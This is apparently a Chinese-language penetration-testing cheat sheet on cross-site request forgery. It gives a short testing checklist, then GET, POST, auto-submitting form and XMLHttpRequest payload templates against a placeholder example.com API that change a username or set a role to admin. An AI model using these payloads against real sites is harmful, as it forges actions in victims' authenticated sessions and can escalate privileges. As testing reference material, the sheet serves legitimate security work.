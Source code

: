 	查看有无token等验证身份的参数，删掉后是否返回正常
	查看header中referer,origin参数，删掉后是否返回正常
	使用csrftester/burpsuite生成表单，以另一账号和浏览器打开测试
	去掉referer中域名后面的文件夹或文件
	替换二级域名
  #### GET需要用户交互
  	<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
  #### GET无用户交互
  	<img src="http://www.example.com/api/setusername?username=CSRFd">
  #### POST需要用户交互
  	<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
	 <input name="username" type="hidden" value="CSRFd" />
	 <input type="submit" value="Submit Request" />
	</form>
  #### POST无用户交互
	<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
	 <input name="username" type="hidden" value="CSRFd" />
	 <input type="submit" value="Submit Request" />
	</form>
	 
	<script>
	 document.getElementById("autosubmit").submit();
	</script>
  #### JSON GET
	<script>
	var xhr = new XMLHttpRequest();
	xhr.open("GET", "http://www.example.com/api/currentuser");
	xhr.send();
	</script>
  #### JSON POST
	<script>
	var xhr = new XMLHttpRequest();
	xhr.open("POST", "http://www.example.com/api/setrole");
	//application/json is not allowed in a simple request. text/plain is the default
	xhr.setRequestHeader("Content-Type", "text/plain");
	//You will probably want to also try one or both of these
	//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
	//xhr.setRequestHeader("Content-Type", "multipart/form-data");
	xhr.send('{"role":admin}');
	</script>

	<script>
	var xhr = new XMLHttpRequest();
	xhr.open("POST", "http://www.example.com/api/setrole");
	xhr.withCredentials = true;
	xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
	xhr.send('{"role":admin}');
	</script>